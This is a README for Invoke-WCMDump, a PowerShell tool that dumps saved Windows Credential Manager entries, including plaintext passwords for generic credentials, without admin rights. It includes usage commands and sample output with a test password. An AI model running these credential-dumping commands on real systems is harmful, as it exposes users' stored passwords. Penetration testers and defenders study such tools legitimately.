 # Invoke-WCMDump
PowerShell script to dump Windows credentials from the Credential Manager

Invoke-WCMDump enumerates Windows credentials in the Credential Manager and then extracts available information about each one. Passwords are retrieved for "Generic" type credentials, but can not be retrived by the same method for "Domain" type credentials. Credentials are only returned for the current user.

Does not require admin privileges!

Author: Barrett Adams (@peewpw)

## Example
```
PS>Import-Module .\Invoke-WCMDump.ps1
PS>Invoke-WCMDump
    Username         : testusername
    Password         : P@ssw0rd!
    Target           : TestApplication
    Description      :
    LastWriteTime    : 12/9/2017 4:46:50 PM
    LastWriteTimeUtc : 12/9/2017 9:46:50 PM
    Type             : Generic
    PersistenceType  : Enterprise
```
